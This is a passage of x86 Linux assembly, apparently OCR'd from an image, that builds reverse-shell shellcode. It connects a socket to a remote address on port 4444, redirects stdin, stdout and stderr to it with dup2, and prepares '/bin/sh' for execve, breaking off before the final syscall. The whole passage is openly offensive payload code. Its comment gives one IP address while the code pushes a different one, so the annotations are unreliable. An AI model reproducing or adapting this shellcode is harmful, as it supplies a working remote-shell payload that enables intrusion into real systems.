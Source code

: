 ```asm
; int connect (int sockfd, const struct sockaddr *addr, socklen_t addrlen);
; syscall number: 362 (0x16a)
;
; Argument Values:
; sockfd = value in eax returned by socket()
; *addr = memory address of structure containing:
;   - sin_family: 0x0002 (AF_INET/IPv4)
;   - sin_port: 0x115c (4444)
;   - sin_addr.s_addr: 0x0101a8c0 (192.168.1.1)
; addrlen = 0x10 (16/sizeof(sockaddr_in))

  mov ebx, eax ; mov sockfd value into ebx

  push 0x81caa8c0

  push word 0x5c11 ; push 0x115c for sin_port
  push word 0x02 ; push 0x0002 for sin_family

  mov ecx, esp ; memory pointer to our sockaddr struct

  mov dl, 0x10
  mov ax, 0x16a
  int 0x80


; CHANGE STD FILE DESCRIPTORS
; int dup2(int oldfd, int newfd);
; syscall number: 63 (0x3f)
;
; Argument Values:
; oldfd = value in ebx used by connect()
; newfd = 0, 1, 2 iteratively (stdin, stdout, stderr)

  xor ecx, ecx
  mov cl, 3 ; 3 file descriptors (stdin, stdout, stderr)

dup_descriptors:
  dec cl ; hack for loop to work with values 2,1,0 instead of 3,2,1
  mul edx ; zero out eax
  mov al, 0x3f
  int 0x80 ; dup2 stdin
  inc cl ; hack for loop to work with values 2,1,0 instead of 3,2,1
  loop dup_descriptors


; EXECVE SHELL
; int execve(const char *filename, char *const argv[], char *const envp[]);
; syscall number: 11 (0xb)
;
; Argument Values:
; *filename = Memory address of a null terminated string "/bin/sh"
; *argv[] = [*"/bin/sh", 0x00000000]
; *envp = NULL

  xor ecx, ecx

  ; This has to be pushed in reverse because of how things move to the stack
  ; Pushing /bin/sh null terminated string
  push cx
  push dword 0x68732f2f ; push / / s h
  push dword 0x6e69622f ; push / b i n

  mov ebx, esp ; Store pointer to "/bin/sh" in ebx
```